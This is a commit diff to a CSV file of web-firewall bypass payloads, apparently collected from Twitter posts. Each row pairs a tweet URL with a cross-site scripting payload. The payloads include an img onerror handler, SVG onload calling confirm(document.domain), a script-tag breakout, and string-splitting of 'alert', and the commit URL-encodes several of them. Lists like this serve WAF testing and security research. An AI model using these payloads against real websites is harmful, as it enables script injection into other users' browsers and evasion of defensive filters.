

Before and after one commit to waf-bypass-maker/waf-community-bypasses, a CSV file: payloads.twitter.csv, drawn as a sheet; only a part is shown, gaps mark what is left out.

Commit message:
Update payloads.twitter.csv

```diff
--- a/payloads.twitter.csv
+++ b/payloads.twitter.csv
@@ -500,6 +500,6 @@ https://twitter.com/TakSec/status/1786074467728515132, 1%27%22%26gt%3B%26lt%3BA%
 https://twitter.com/KN0X55/status/1786022967933046971,%20%3CA%20HRef%3D%5C%22%20AutoFocus%20OnFocus%3Dtop%2F%2A%2A%2F%3F.%5B%27al%27%252B%27ert%27%5D%281%29%3E,xss
-https://twitter.com/PrinceOker79109/status/1786548416010498123, <Img Src=OnXSS OnError=confirm("Hacked_by_a7madn1")>,xss
-https://twitter.com/XssPayloads/status/1788748656390058340, &lt;foo%20bar=%250a%20onclick=&lt;your js code&gt;,xss
+https://twitter.com/PrinceOker79109/status/1786548416010498123, %3CImg%20Src%3DOnXSS%20OnError%3Dconfirm%28%22Hacked_by_a7madn1%22%29%3E,xss
+https://twitter.com/XssPayloads/status/1788748656390058340, %26lt%3Bfoo%2520bar%3D%25250a%2520onclick%3D%26lt%3Byour%20js%20code%26gt,xss
 https://twitter.com/Dharamveer_____/status/1788492033675440375, %3CSVG/oNlY=1%20ONlOAD=confirm(document.domain)%3E,xss
-https://twitter.com/Dharamveer_____/status/1788492033675440375https://twitter.com/NinadMishra5/status/1790318182680740336, `"//><script>alert()</script>,xss
+https://twitter.com/Dharamveer_____/status/1788492033675440375,%20%60%22%2F%2F%3E%3Cscript%3Ealert%28%29%3C%2Fscript%3E,xss
 https://twitter.com/its_Loksh_P/status/1792006779783848407, alert = window["al"+"ert"],xss
```
